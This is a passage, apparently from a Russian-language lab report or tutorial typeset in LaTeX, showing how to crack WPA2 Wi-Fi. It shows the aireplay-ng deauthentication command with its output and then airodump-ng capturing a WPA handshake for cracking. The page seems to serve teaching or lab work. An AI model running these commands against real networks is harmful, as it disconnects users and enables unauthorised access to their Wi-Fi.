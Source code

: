 \documentclass[10pt,a4paper]{article}
\begin{document}
\paragraph{Произвести деаутентификацию одного из клиентов, до
тех пор, пока не удастся собрать необходимых для взлома аутенти-фикационных сообщений}
~

\begin{verbatim}
root@debian:~# aireplay-ng --ignore-negative-one --deauth 150 
-a C0:C1:C0:D2:D2:20 -h 18:62:2C:E0:D8:83:5C mon0
The interface MAC ( C4:85:08:D5:6F:07) doesn't match the specified MAC (-h).
	ifconfig mon0 hw ether  18:62:2C:E0:D8:83
22:10:51  Waiting for beacon frame (BSSID: C0:C1:C0:D2:D2:20) on channel -1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
22:10:51  Sending DeAuth to broadcast -- BSSID: [C0:C1:C0:D2:D2:20]
22:10:52  Sending DeAuth to broadcast -- BSSID: [C0:C1:C0:D2:D2:20]
22:10:53  Sending DeAuth to broadcast -- BSSID: [C0:C1:C0:D2:D2:20]
22:10:54  Sending DeAuth to broadcast -- BSSID: [C0:C1:C0:D2:D2:20]
22:10:56  Sending DeAuth to broadcast -- BSSID: [C0:C1:C0:D2:D2:20]
22:10:57  Sending DeAuth to broadcast -- BSSID: [C0:C1:C0:D2:D2:20]
22:10:58  Sending DeAuth to broadcast -- BSSID: [C0:C1:C0:D2:D2:20]
22:10:59  Sending DeAuth to broadcast -- BSSID: [C0:C1:C0:D2:D2:20]
\end{verbatim}

В результате перехватываем пакет handshake:

\begin{verbatim}
root@debian:~# airodump-ng mon0 --bssid C0:C1:C0:D2:D2:20 -c 6 
--write dump --ignore-negative-one
 CH  6 ][ Elapsed: 1 min ][ 2015-06-17 22:35 ][ WPA handshake: C0:C1:C0:D2:D2:2
                                                                               
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH E
                                                                               
 C0:C1:C0:D2:D2:20  -45        5        0    0   1  54e  WPA2 CCMP   PSK  <length:   6>                   
                                                                               
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes     
                                                                               
C0:C1:C0:D2:D2:20    C4:85:08:D5:6F:07    -27   0 -6e    0         3
\end{verbatim}
\end{document}
